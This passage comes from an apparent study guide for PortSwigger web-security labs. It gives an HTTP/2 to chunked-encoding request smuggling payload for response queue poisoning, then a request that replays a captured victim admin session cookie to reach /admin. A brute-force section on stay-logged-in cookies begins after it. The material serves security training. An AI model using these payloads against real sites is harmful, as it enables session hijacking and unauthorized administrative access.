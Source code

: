 >Note: Switch to **HTTP/2** in the inspector request attributes and Enable the **Allow HTTP/2 ALPN override** option in repeat menu.  

```html
POST /x HTTP/2
Host: TARGET.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: TARGET.web-security-academy.net\r\n
\r\n
```  

>Note: Paths in both POST and GET requests points to non-existent endpoints. This help to ***identify*** when not getting a 404 response, the response is from victim user captured request. **Remember** to terminate the smuggled request properly by including the sequence ```\r\n\r\n``` after the Host header.  

![302 Response once stolen admin cookie request captured](images/302-stolen-admin-cookie.png)  

>Copy stolen session cookie value into new **http/2** GET request to the admin panel.  

```
GET /admin HTTP/2
Host: TARGET.web-security-academy.net
Cookie: session=VictimAdminSessionCookieValue
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
```  

![admin-panel-access](images/admin-panel-access.png)  

[PortSwigger Lab: Response queue poisoning via H2.TE request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling)  
  
-----

## Brute Force  

[Stay-Logged-in](#stay-logged-in)  
[Stay-logged-in Offline Crack](#stay-logged-in-offline-crack)  
[Brute Force Protected Login](#brute-force-protected-login)  
[Subtly Invalid Login](#subtly-invalid-login)  

### Stay-Logged-in  

>Login option with a stay-logged-in check-box result in Cookie value containing the password of the user logged in and is vulnerable to brute-forcing.  
